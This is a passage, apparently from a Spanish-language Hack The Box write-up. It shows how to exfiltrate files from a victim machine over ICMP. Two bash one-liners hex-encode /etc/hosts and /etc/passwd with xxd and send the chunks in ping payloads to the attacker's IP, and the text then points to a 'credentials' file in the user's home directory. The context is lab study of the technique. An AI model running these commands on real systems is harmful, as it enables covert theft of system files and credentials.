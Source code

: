 Con nuestro código ya finalizado, ejecutaremos el siguiente comando tal y como comentamos anteriormente y, conseguiremos exfiltrar el contenido del fichero `/etc/hosts` de la máquina.

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line NUESTRA_IP_HTB; done
```

![filtrando el contenido del etc hosts de la maquia victima.png](/assets/img/filtrando-el-contenido-del-etc-hosts-de-la-maquia-victima.png)

Podemos ir modificando el fichero a exfiltrar simplemente cambiando el nombre del fichero. Si queremos obtener el `/etc/passwd` ejecutaremos el comando de a continuación.

```bash
xxd -p -c 4 /etc/passwd | while read line; do ping -c 1 -p $line NUESTRA_IP_HTB; done
```

![exfiltrando el etc passwd.png](/assets/img/exfiltrando-el-etc-passwd.png)

Si nos fijamos en el texto de la web, nos está comentando que el usuario tiene un contenido en su directorio home llamado `credentials`.
